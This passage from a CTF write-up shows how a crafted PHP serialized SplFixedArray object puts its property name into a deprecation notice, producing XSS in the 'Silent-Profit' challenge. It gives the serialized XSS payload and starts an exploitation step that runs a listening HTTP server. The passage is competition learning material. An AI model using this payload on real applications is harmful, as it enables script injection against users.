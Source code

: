 TL;DR: When an `SplFixedArray` object is unserialized, the elements stored in the object's properties are moved into the internal fixed-size array of the object.

Does that sound familiar? It's basically setting the properties from **within the class**!

Since we can control the property name during deserialization, we can craft the following serialized object string:

```php
O:13:"SplFixedArray":1:{s:3:"foo";N;}
```

- `O:13:"SplFixedArray"`: An object named `SplFixedArray`, and its object name is `13` characters long
- `:1:`: The object has `1` property
- `{s:3:"foo";N;}`: Property `foo` is a string (`s`) and it is `3` characters long. The value of this property is `null` (`N`).

If we try to deserialize and dump it, we will see this structure:

```shell
php > var_dump(unserialize('O:13:"SplFixedArray":1:{s:3:"foo";N;}'));
[...]
object(SplFixedArray)#1 (1) {
  ["foo"]=>
  NULL
}
```

Now, what if we try to do the same thing in the web application?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/R3CTF-2025/images/Pasted%20image%2020250707140800.png)

Nice! It emitted the deprecation notice!

Let's change the property name into an XSS payload!

```php
O:13:"SplFixedArray":1:{s:39:"<script>alert(document.domain)</script>";N;}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/R3CTF-2025/images/Pasted%20image%2020250707140941.png)

We now achieved XSS!

## Exploitation

Armed with above information, we can get the flag by:

- Setup our own HTTP server:

```shell
┌[siunam♥Mercury]-(~/ctf/R3CTF-2025/Web/Silent-Profit)-[2025.07.07|14:11:55(HKT)]
└> python3 -m http.server 8000 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
